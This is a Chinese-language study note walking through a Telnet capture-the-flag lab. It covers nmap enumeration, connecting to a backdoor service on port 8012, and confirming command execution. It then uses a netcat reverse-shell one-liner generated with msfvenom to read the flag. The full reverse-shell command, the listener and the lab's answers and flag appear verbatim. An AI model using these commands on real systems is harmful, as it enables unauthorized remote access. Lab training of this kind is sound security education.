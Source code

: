 ```yaml
---
title: 常见的网络服务-Telnet
createTime: 2024/11/16 19:34:46
permalink: /penetration/pjibfh9x/
---
```


Telnet是一种应用程序协议（`application protocol`  ），它允许您使用telnet客户端连接到托管telnet服务器的远程计算机并在其上执行命令。
Telnet 以明文形式发送所有消息，并且没有特定的安全机制。因此，在许多应用程序和服务中，Telnet 在大多数实现中已被 SSH 取代。
## Telnet 使用

```bash file:telnet
telnet [ip] [port]
```

>[!TIP]
>**telnet 窗口执行命令，需要在命令执行前添加`.RUN`**

```ad-details
collapse: true
title:  什么是telnet？
**答案**： `application protocol`
```

```ad-details
collapse: true
title:  什么慢慢取代了 Telnet？
**答案**： `ssh`
```

```ad-details
collapse: true
title: 如何连接到端口 23 上 IP 为 10.10.10.3 的 Telnet 服务器？
**答案**： `telnet 10.10.10.3 23`
```

```ad-details
collapse: true
title:  缺少什么，意味着所有 Telnet 通信都是明文的？
_提示：现代互联网使用什么来安全通信？_
**答案**：`encryption`
```

## Telnet枚举（Enumerating）

我们已经看到了密钥枚举如何利用配置错误的网络服务。然而，可能微不足以利用的漏洞并不总是突然出现在我们面前。因此，尤其是在列举网络服务时，我们需要彻底使用我们的方法。

让我们以通常使用的方式开始，即端口扫描，以尽可能多地了解有关目标计算机的服务、应用程序、结构和操作系统的信息。使用[NMAP](5.Network_NMAP.md)和标签 `-A` 和 `-p-` 扫描计算机。

- `-A`：将操作系统检测、版本检测、脚本扫描和 Traceroute 合二为一（噪声大）。
- `-p-`：启用所有端口的扫描，而不仅仅是前 1000 个端口。

````ad-details
collapse: true
title: 有多少端口在此及其开启？
**答案**：`1`
让我们从使用 Nmap 扫描机器开始：
```bash
sudo nmap -p- 10.10.86.243


Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:43 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00070s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
8012/tcp open  unknown
MAC Address: 02:3C:80:9F:77:B3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.55 seconds

```
````

```ad-details
collapse: true
title:  哪个端口是开启的？
**答案**：`8012`
```

```ad-details
collapse: true
title: 这个端口是未分配的，但任然给出了他正在使用的协议类型，是什么协议？
**答案**：`TCP`
```

```ad-details
collapse: true
title:  不用`-p-`参数，扫描结果中有几个端口开启？
**答案**：`0`

**在这里，我们看到通过将 telnet 分配给非标准端口，它不是 nmap 扫描的公共端口列表或前 1000 个端口的一部分。在列举时尝试每个角度很重要，因为您在此处收集的信息将为您的开发阶段提供信息。**
```

```ad-details
collapse: true
title: 根据返回信息，我们认为这个端口可以来干什么？
**答案**：`abackdoor`
```

````ad-details
collapse: true
title: 它会属于谁？
**答案**：`Skidy`

```bash{10}
sudo nmap  -sV -p8012  10.10.86.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-22 12:50 UTC
Nmap scan report for ip-10-10-86-243.eu-west-1.compute.internal (10.10.86.243)
Host is up (0.00019s latency).

PORT     STATE SERVICE VERSION
8012/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8012-TCP:V=7.93%I=7%D=7/22%Time=669E559B%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20command
SF:s\n")%r(GenericLines,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\
...
```
````

## Telnet 漏洞利用

Telnet 作为一种协议，由于我们之前讨论的原因，它本身是不安全的。它缺乏加密，因此所有通信都通过明文发送，并且在大多数情况下访问控制不佳。但是，Telnet 客户端和服务器系统存在 CVE，因此在利用时，您可以在以下位置检查这些 CVE：

- [https://www.cvedetails.com/](https://www.cvedetails.com/)
- [https://cve.mitre.org/](https://cve.mitre.org/)
CVE 是 Common Vulnerabilities and Exposures 的缩写，是公开披露的计算机安全漏洞列表。当有人提到 CVE 时，他们通常是指分配给安全漏洞的 CVE ID 号。
但是，您更有可能发现 telnet 的配置或运行方式存在错误配置，从而允许您利用它。

因此，从我们的枚举阶段，我们知道：
- 此机器上正在运行一个隐藏性很差的 telnet 服务
-  “backdoor”服务本身被标记为 “backdoor”
- 我们可能牵涉到“Skidy”的用户名
使用此信息，让我们尝试访问此 telnet 端口，并将其用作在机器上获得完整反向 shell 的立足点！

#### 连接到 telnet

**什么是反向shell？**

![](assets/8.network_telnet/file-20241116235324.png)

“shell” 可以简单地描述为一段代码或程序，可用于在设备上执行代码或命令。
反向 shell 是一种 shell，其中目标机器与攻击机器通信。攻击机器有一个侦听端口，它通过该端口接收连接，从而实现代码或命令的执行。

````ad-details
collapse: true
title: 登陆telnet，我们收到了什么欢迎信息?
**答案：**`SKIDY'S BACKDOOR`

```bash
telnet 10.10.86.243 8012

Trying 10.10.86.243...
Connected to 10.10.86.243.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
```
````

````ad-details
collapse: true
title:  尝试运行命令，会有返回信息吗？
**答案：**`N`
```bash
.RUN ls
```
````

### 验证是否可以执行命令

 嗯......这很奇怪。让我们检查一下我们键入的内容是否作为系统命令执行。

````ad-details
collapse: true
title: 在本地主机上启动tcpdump 侦听器，侦听 `ping`操作的`ICMP`流量：`sudo tcpdump local-ip proto \\icmp -i eth0`Telnet 会话中运行“ping [local IP] -c 1” 看看本地是否能够收到`ping`流量？
**答案：** `Y`
```bash
sudo tcpdump ip proto \\icmp -i eth0  # 本地IP
 .RUN ping -c 1 10.10.33.28   # telnet会话窗口执行命令，记得加`.RUN`
```
````

太好了！这意味着我们能够执行系统命令，并且能够访问我们的本地计算机。现在让我们来找点乐子吧！

### 生成 reverse_shell

**我们将使用 msfvenom 生成反向 shell 有效负载。这将为我们生成并编码一个 netcat 反向 shell。这是我们的语法：**

```bash file:msfvenom
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

-  `-p` = 有效载荷类型
- `lhost` = 我们的本地主机 IP 地址
- `lport` = 要侦听的端口
- `R` = 以原始格式导出有效负载

````ad-details
collapse: true
title:用`msfvenom` 生成反向`shell` 的payload，`payload`以哪个单词开头 ？
**答案：**`mkfifo`

```bash
msfvenom  -p cmd/unix/reverse_netcat lhost=10.10.33.28  lport=4444 R

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 101 bytes
mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```
````

```ad-details 
collapse: true
title: 成功！flag.txt 的内容是什么？
**答案：** `THM{y0u_g0t_th3_t3ln3t_fl4g}`
```

:::tabs
@tab 本地端口监听
```bash file:nc
nc -lvp 4444
```
@tab 远程执行反弹
```bash file: .RUN
.RUN mkfifo /tmp/mbilfvt; nc 10.10.33.28 4444 0</tmp/mbilfvt | /bin/sh >/tmp/mbilfvt 2>&1; rm /tmp/mbilfvt
```
@tab flag
```bash file:flag
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
:::

